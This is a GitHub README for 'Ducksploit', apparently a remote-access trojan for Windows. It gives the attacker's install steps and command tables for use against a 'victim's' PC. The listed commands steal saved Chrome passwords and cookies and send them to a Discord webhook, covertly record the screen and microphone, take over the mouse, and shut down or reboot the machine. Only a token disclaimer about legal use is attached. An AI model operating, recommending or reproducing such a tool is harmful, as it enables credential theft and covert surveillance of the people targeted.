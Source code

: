 [![banner](https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/banner.png?raw=true "banner")](https://github.com/canarddu38/DUCKSPLOIT/blob/master/images/banner.png?raw=true "banner")

 # Ducksploit
 # test
 
 ![](https://img.shields.io/badge/Version-1.0-red) ![](https://img.shields.io/github/stars/canarddu38/DUCKSPLOIT) ![](https://img.shields.io/github/issues/canarddu38/DUCKSPLOIT) ![](	https://img.shields.io/github/forks/canarddu38/DUCKSPLOIT) ![](https://img.shields.io/github/license/canarddu38/DUCKSPLOIT)


## Install Ducksploit

#### Hacker
   1. Download https://github.com/canarddu38/DUCKSPLOIT/archive/master.zip
   2. Extract downloaded zip file
   3. Go in SERVER folder
   4. If python is not installed, launch 'installpython.bat' or download at https://www.python.org/ftp/python/3.8.0/python-3.8.0.exe
   5. Install python requirements using 'installrequirements.bat' script
   6. launch setup.bat       ###MUST BE RUN AS ADMINISTRATOR###
   7. Ducksploit is now installed on your PC :smile:
   8. Type 'ducksploit' in the cmd
   9. Config your ip using 'ipconfig' (your ip)
   10. Wait victim's connection using 'wait' command
   11. Have fun with ducksploit hacking commands (type help to get commands list)


:warning: Ducksploit is made for legal use or educational use :warning:

## Uninstall Ducksploit

   1. Launch Ducksploit terminal using 'ducksploit'
   2. type 'uninstall'
   3. Done  :smile:


## **Commands**

#### Config
| Command  | Usage | Result |
| ------------- | ------------- | ------------- |
| ipconfig  | ipconfig (your ipv4) | config your ip |

#### Exploits
| Command  | Usage | Result |
| ------------- | ------------- | ------------- |
| stealpwds | stealpwds (discord webhook url) | steal all saved chrome passwords of your victim and send them into a discord webhook |
| stealcookies  | stealcookies (discord webhook url) | steal all saved chrome cookies of your victim and send them into a discord webhook |
| open  | open (applicationname.exe) | open mensioned application |
| recordscreen  | recordscreen (time in second) | record victim's screen durring amount of time |
| recordmicro  | recordmicro (time in second) | record victim's micro durring amount of time |
| open  | open (applicationname.exe) | open mensioned application |

#### Mouse
| Command  | Usage | Result |
| ------------- | ------------- | ------------- |
| mouseclick | mouseclick [left, right, middle] | make the victim click the mensionned button |
| mousemove | mousemove (x) (y) | move the victim's cursor by x and y pixels |
| mousescroll | mousescroll (int between -1000 and 1000) | make the user scroll by int pixels |
| locatemouse | locatemouse | get the victim's cursor current locations |

#### Alert Window
| Command  | Usage | Result |
| ------------- | ------------- | ------------- |
| msg | msg [-file, -text] (title) (line1) (line2) | create an alertbox and send it on the vitim's pc with a title and 2 lines (if -file set line1 to createfile command content) |
| createfile | createfile (text) | set the content of line1 of msg command |

# test

#### Mysc
| Command  | Usage | Result |
| ------------- | ------------- | ------------- |
| update | update | update ducksploit |
| exit | exit | exit from the ducksploit treminal |
| help | help | getting the list of all commands |
| shutdown | shutdown | make the victim's pc shutdown |
| reboot | reboot | make the victim's pc reboot |
| closesession | closesesion | make the victim's session close |
